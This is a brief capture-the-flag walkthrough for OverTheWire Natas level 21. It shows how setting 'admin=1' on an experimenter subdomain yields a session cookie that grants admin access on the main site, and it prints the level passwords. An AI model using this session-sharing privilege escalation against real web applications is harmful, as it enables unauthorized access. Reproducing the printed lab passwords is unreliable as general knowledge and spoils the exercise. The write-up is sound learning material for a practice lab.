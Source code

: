 # [natas 21](http://natas21.natas.labs.overthewire.org)

    Username: natas21
    Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ

First, get a cookie with admin authority.
Browse to the url below.

    natas21-experimenter.natas.labs.overthewire.org/?admin=1&debug

Record the cookie.

    PHPSESSID: 65gsq6rbci01n5aoh0mg97cff7

Second, browse to "http://natas21.natas.labs.overthewire.org/" with the admin cookie to get the password.

    Username: natas22
    Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

